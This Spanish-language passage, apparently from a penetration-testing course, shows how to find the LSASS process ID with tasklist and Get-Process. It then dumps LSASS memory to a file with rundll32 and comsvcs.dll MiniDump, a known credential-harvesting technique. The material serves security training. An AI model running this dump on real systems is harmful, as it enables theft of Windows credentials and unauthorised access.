 Antes de emitir el comando para crear el archivo de volcado, debemos determinar qué ID de proceso (`PID`) está asignado a `lsass.exe`. Esto se puede hacer desde cmd o PowerShell:

### Finding LSASS PID in cmd

Desde cmd, podemos emitir el comando `tasklist /svc` y encontrar lsass.exe y su ID de proceso en el campo PID.

```r
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

### Finding LSASS PID in PowerShell

Desde PowerShell, podemos emitir el comando `Get-Process lsass` y ver el ID del proceso en el campo `Id`.

```r
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

Una vez que tengamos el PID asignado al proceso LSASS, podemos crear el archivo de volcado.

### Creating lsass.dmp using PowerShell

Con una sesión elevada de PowerShell, podemos emitir el siguiente comando para crear el archivo de volcado:

```r
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

Con este comando, estamos ejecutando `rundll32.exe` para llamar a una función exportada de `comsvcs.dll` que también llama a la función MiniDumpWriteDump (`MiniDump`) para volcar la memoria del proceso LSASS a un directorio especificado (`C:\lsass.dmp`). Recuerda que la mayoría de las herramientas AV modernas reconocen esto como malicioso y evitan que se ejecute el comando. En estos casos, tendremos que considerar formas de evitar o desactivar la herramienta AV que enfrentamos. Las técnicas de evasión de AV están fuera del alcance de este módulo.
